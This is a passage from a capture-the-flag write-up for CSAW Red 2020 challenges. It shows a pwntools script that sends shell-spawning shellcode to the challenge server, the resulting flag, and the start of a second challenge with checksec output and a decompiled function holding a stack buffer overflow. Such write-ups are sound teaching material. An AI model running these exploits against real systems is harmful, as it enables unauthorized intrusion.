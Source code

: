 pwntools can generate this shellcode for us, all we need to do is send it.

```python
from pwn import *

r = remote("pwn.red.csaw.io", 5000)

r.sendline("6")
r.sendline(asm(shellcraft.i386.sh()))

r.interactive()
```

## Flag
```
flag{w3lc0m3_t0_sh3llc0d1ng!!!}
```

# pwn - Actually not guessy
> No-one has ever guessed my favorite numbers. Can you?
>
> `nc pwn.red.csaw.io 5007`

## Files
- actually\_not\_guessy

## Solution
```
$ checksec actually_not_guessy
[*] '/home/darin/ctfs/red-2020/actually/actually_not_guessy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can throw this in Ghidra to reverse it. After cleaning up the decompilation a bit, `vuln()` is what we're interested in.

```c
void vuln(void)
{
  char buf [0x24];

  init();
  puts("Would you like to play a game? \nIf you can guess my three favorite numbers...you win!");
  fgets(buf,0x48,stdin);
  return;
}
```
